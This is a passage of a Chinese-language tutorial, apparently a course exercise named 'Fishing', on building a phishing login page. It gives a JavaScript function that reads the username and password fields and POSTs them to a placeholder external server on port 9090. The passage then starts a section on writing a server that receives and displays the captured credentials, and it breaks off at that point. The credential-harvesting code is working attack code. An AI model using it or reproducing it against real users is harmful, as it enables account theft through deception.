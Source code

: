 接下来编写 `saveAccount()`函数，该会在按钮点击时间时触发，其是通过id取值，随后建立HTTP请求将信息发送到指定位置。通过浏览器调试我们可以发现，id为'u'的正是第一个输入框，同样，id为'p'的是第二个输入框。

![image-20220413001435669](Fishing.assets/image-20220413001435669.png)

```js
function saveAccount() {
	// 通过 id 获取元素值
	var user = document.getElementById("u").value;
	var passwd = document.getElementById("p").value;
	// 创建XMLHttpRequest 对象
	var httpRequest = new XMLHttpRequest();
	// 建立一个 HTTP 异步请求
	httpRequest.open('POST', 'http://XXX.XXX.XXX.XXX:9090', true);
	// 设置HTTP请求头部 C..参数的值为ap...
	httpRequest.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
	// 	发送请求
	httpRequest.send('user=' + user + 'pwd=' + passwd);
}
```

<center>
    <img style="border-radius: 0.3125em;
    box-shadow: 0 2px 4px 0 rgba(34,36,38,.12),0 2px 10px 0 rgba(34,36,38,.08);" 
    src="Fishing.assets/image-20220413002200349.png">
    <br>
    <div style="color:orange; border-bottom: 1px solid #d9d9d9;
    display: inline-block;
    color: #999;
    padding: 3px;">为登录按钮添加单击事件和响应函数</div>
</center>
## 接收

2 、接收钓鱼所得的账号和密码（分档）
（1 ）第一档：编写网络服务端程序， 接收并显示钓鱼页面所发送的账号和密码， 编程语言不限， C 、Java 、C# 、Python 均可， 系统运行环境不限。

### Go

提供的几种语言都是比较常见的，那么我们先使用Go语言实现，如果使用jetBrain系列产品可能会比较慢，我们可以直接在命令行运行。
